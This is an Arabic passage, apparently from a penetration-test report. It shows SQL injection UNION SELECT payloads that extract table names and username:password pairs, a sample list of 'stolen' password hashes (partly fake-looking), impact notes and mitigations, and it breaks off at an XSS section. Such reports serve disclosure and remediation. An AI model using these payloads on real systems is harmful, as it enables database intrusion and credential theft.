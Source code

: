 #### الخطوة 3: استخراج أسماء الجداول
```sql
-- الحمل: 1' AND 1=2 UNION SELECT null,table_name,null FROM information_schema.tables--
-- النتيجة: تم استخراج الجداول التالية:
```

**الجداول المكتشفة:**
- users
- administrators  
- products
- orders
- payments

#### الخطوة 4: استخراج بيانات المستخدمين
```sql
-- الحمل: 1' AND 1=2 UNION SELECT null,username+':'+password,null FROM users--
-- النتيجة: تم استخراج بيانات الاعتماد التالية:
```

**بيانات الاعتماد المسروقة:**
```
👤 admin : 5f4dcc3b5aa765d61d8327deb882cf99
👤 john_doe : a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6  
👤 jane_smith : 098f6bcd4621d373cade4e832627b4f6
```

### 💥 التأثير
- ✅ وصول كامل إلى قاعدة البيانات
- ✅ سرقة بيانات المستخدمين الحساسة
- ✅ إمكانية تعديل أو حذف البيانات
- ✅ الوصول إلى بيانات الدفع والطلبات

### 🔧 الحلول الأمنية
1. استخدام استعلامات محضرة (Prepared Statements)
2. تنفيذ التحقق الصارم من المدخلات
3. استخدام Stored Procedures عند الإمكان
4. تقليص امتيازات قاعدة البيانات

---

## القسم الثاني: اثبات استغلال ثغرات Cross-Site Scripting (XSS)

### 🎯 الهدف
صفحة البحث في تطبيق الويب

### 🔍 وصف الثغرة
ثغرة XSS تسمح للمهاجم بتنفيذ أكواد JavaScript ضارة في متصفح الضحية، مما يؤدي إلى سرقة بيانات الاعتماد والسيطرة على الجلسة.

### 💻 اثبات الاستغلال
